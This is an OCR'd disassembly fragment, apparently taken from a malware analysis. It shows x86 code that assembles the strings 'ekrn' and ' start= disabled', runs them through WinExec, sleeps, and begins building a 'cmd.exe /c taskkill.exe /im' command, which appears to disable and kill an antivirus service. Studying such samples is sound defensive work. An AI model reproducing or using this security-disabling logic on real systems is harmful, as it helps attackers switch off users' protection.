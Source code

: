   00401F3E    8BC1            mov     eax, ecx
  00401F40    8BF7            mov     esi, edi
  00401F42    8BFA            mov     edi, edx
  00401F44    8D5424 10       lea     edx, dword ptr [esp+10]
  00401F48    C1E9 02         shr     ecx, 2
  00401F4B    F3:A5           rep     movs dword ptr es:[edi], dword p>
  00401F4D    8BC8            mov     ecx, eax
  00401F4F    33C0            xor     eax, eax
  00401F51    83E1 03         and     ecx, 3
  00401F54    50              push    eax
  00401F55    F3:A4           rep     movs byte ptr es:[edi], byte ptr>
  00401F57    BF 6C114000     mov     edi, 0040116C                    ; ASCII "ekrn"
  00401F5C    83C9 FF         or      ecx, FFFFFFFF
  00401F5F    F2:AE           repne   scas byte ptr es:[edi]
  00401F61    F7D1            not     ecx
  00401F63    2BF9            sub     edi, ecx
  00401F65    8BF7            mov     esi, edi
  00401F67    8BD9            mov     ebx, ecx
  00401F69    8BFA            mov     edi, edx
  00401F6B    83C9 FF         or      ecx, FFFFFFFF
  00401F6E    F2:AE           repne   scas byte ptr es:[edi]
  00401F70    8BCB            mov     ecx, ebx
  00401F72    4F              dec     edi
  00401F73    C1E9 02         shr     ecx, 2
  00401F76    F3:A5           rep     movs dword ptr es:[edi], dword p>
  00401F78    8BCB            mov     ecx, ebx
  00401F7A    8D5424 14       lea     edx, dword ptr [esp+14]
  00401F7E    83E1 03         and     ecx, 3
  00401F81    F3:A4           rep     movs byte ptr es:[edi], byte ptr>
  00401F83    BF C4104000     mov     edi, 004010C4                    ; ASCII " start= disabled"
  00401F88    83C9 FF         or      ecx, FFFFFFFF
  00401F8B    F2:AE           repne   scas byte ptr es:[edi]
  00401F8D    F7D1            not     ecx
  00401F8F    2BF9            sub     edi, ecx
  00401F91    8BF7            mov     esi, edi
  00401F93    8BD9            mov     ebx, ecx
  00401F95    8BFA            mov     edi, edx
  00401F97    83C9 FF         or      ecx, FFFFFFFF
  00401F9A    F2:AE           repne   scas byte ptr es:[edi]
  00401F9C    8BCB            mov     ecx, ebx
  00401F9E    4F              dec     edi
  00401F9F    C1E9 02         shr     ecx, 2
  00401FA2    F3:A5           rep     movs dword ptr es:[edi], dword p>
  00401FA4    8BCB            mov     ecx, ebx
  00401FA6    8B1D 20104000   mov     ebx, dword ptr [<&kernel32.WinEx>; kernel32.WinExec
  00401FAC    83E1 03         and     ecx, 3
  00401FAF    8D4424 14       lea     eax, dword ptr [esp+14]
  00401FB3    F3:A4           rep     movs byte ptr es:[edi], byte ptr>
  00401FB5    50              push    eax
  00401FB6    FFD3            call    ebx
  00401FB8    8B2D 38104000   mov     ebp, dword ptr [<&kernel32.Sleep>; kernel32.Sleep
  00401FBE    68 D0070000     push    7D0
  00401FC3    FFD5            call    ebp
  00401FC5    BF D8104000     mov     edi, 004010D8                    ; ASCII "cmd.exe /c taskkill.exe /im "
  00401FCA    83C9 FF         or      ecx, FFFFFFFF
  00401FCD    33C0            xor     eax, eax
  00401FCF    8D5424 10       lea     edx, dword ptr [esp+10]
  00401FD3    F2:AE           repne   scas byte ptr es:[edi]
  00401FD5    F7D1            not     ecx
  00401FD7    2BF9            sub     edi, ecx
  00401FD9    8BF7            mov     esi, edi
  00401FDB    8BC1            mov     eax, ecx
  00401FDD    8BFA            mov     edi, edx
